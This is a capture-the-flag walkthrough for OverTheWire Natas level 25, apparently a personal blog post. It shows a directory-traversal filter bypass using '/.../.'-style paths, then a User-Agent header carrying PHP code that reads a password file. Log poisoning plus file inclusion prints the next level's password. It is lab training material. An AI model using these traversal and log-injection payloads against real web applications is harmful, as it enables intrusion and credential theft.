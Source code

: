    echo "&lt;h2&gt;$__GREETING&lt;/h2&gt;";
    echo "&lt;p align=\"justify\"&gt;$__MSG";
    echo "&lt;div align=\"right\"&gt;&lt;h6&gt;$__FOOTER&lt;/h6&gt;&lt;div&gt;";
?&gt;
&lt;p&gt;</pre>

Looking at the source there are a couple of things that jump out at me. First is the homegrown checks on input for the language file. Those checks can probably be gotten around. Also there is a logfile getting written to that may be vulnerable to a stored XSS type of attack.

#### Objective 1

Try to get around the checks on the included language file.

I started out with getting one of the checks to fail, to see what would happen and to create the log file, using &#8220;/?lang=/../logs/natas25_g2ouhkp80fj036rpalvnpb9l13.log&#8221;  
There was no obvious result on the response page, but maybe the log file was created.

Next I tried &#8220;/?lang=/&#8230;/./logs/natas25_g2ouhkp80fj036rpalvnpb9l13.log&#8221;. Important point being the &#8220;../&#8221; was removed from &#8220;/&#8230;/./&#8221;, leaving &#8220;/../&#8221; correctly in place.  
I get the expected log output as:

<pre class="lang:xhtml highlight:0 decode:true ">[19.09.2019 12::52:19] Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 "Directory traversal attempt! fixing request."
[19.09.2019 12::54:32] Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 "Directory traversal attempt! fixing request."</pre>

<img class="alignnone size-full wp-image-288" src="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-19_12h58_22.png" alt="" width="599" height="531" srcset="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-19_12h58_22.png 599w, http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-19_12h58_22-300x266.png 300w" sizes="(max-width: 599px) 100vw, 599px" /> 

#### Objective 2

Get around the check for &#8220;natas_webpass&#8221;.

Stored XSS is likely possible on the log file using the User-Agent string, since that gets saved. Injecting some PHP that reads &#8220;natas_webpass&#8221; should bypass the check on our variable.

Write &#8220;User-Agent: <?php include(&#8220;/etc/natas_webpass/natas26&#8243;); ?>&#8221; into the HTTP header using Burp Repeater:

<pre class="lang:php highlight:0 decode:true">[19.09.2019 12::52:19] Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 "Directory traversal attempt! fixing request."
[19.09.2019 12::54:32] Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 "Directory traversal attempt! fixing request."
[19.09.2019 12::56:21] Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 "Directory traversal attempt! fixing request."
[19.09.2019 13::05:45] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
33 "Directory traversal attempt! fixing request."</pre>

Success!!

&nbsp;